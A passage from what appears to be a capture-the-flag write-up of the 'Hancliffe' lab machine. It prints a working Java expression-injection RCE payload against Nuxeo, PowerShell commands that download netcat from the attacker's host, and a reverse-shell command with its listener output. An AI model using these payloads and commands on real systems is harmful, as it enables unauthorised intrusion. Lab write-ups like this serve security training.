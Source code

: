 Updating the URI to reach the the login page on Hancliffe works:

![image-20220127144904131](https://0xdfimages.gitlab.io/img/image-20220127144904131.png)

#### Manual POC

The page also suggests this payload for RCE:

```

${"".getClass().forName("java.lang.Runtime").getMethod("getRuntime", null).invoke(null, null).exec("touch /tmp/pwn.txt", null).waitFor()}

```

This is abusing Java to `touch` a file. I’ll modify the payload ping my host which I can watch for with `tcpdump`:

```

${"".getClass().forName("java.lang.Runtime").getMethod("getRuntime", null).invoke(null, null).exec("ping 10.10.14.6", null).waitFor()}

```

When I update the url in Firefox, I see pings at my listening `tcpdump`:

[![](https://0xdfimages.gitlab.io/img/hancliffe-rce-poc-ping.gif)*Click for full size image*](https://0xdfimages.gitlab.io/img/hancliffe-rce-poc-ping.gif)

(It is a bit odd that there are only four pings in that GIF… the default for Windows is typically five.)

### Shell

I tried a handful of things that didn’t work to get a reverse shell. I eventually settled on uploading `nc` using `powershell -c curl 10.10.14.6/nc64.exe -outfile \programdata\nc64.exe`, and then triggering it with `powershell -c \programdata\nc64.exe -e powershell 10.10.14.6 443`:

```

oxdf@hacky$ rlwrap -cAr nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.115 54865
  
PS C:\Nuxeo> whoami
hancliffe\svc_account

```

I’ve long been a fan of `rlwrap` for improving Windows reverse shells. `-c` adds tab completion, `-A` makes it color aware, and `-r` adds to the completion wordlist.

## Shell as clara

### Enumeration
